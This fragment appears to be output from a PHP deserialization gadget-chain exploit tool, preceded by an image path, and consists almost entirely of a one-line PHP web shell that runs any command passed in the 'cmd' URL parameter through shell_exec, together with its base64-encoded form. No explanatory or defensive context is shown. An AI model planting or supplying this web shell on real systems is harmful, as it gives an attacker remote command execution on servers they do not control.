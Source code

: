 ```
[+] The following gadget chain will generate the following code : <?php echo shell_exec($_GET["cmd"]);?> (base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
```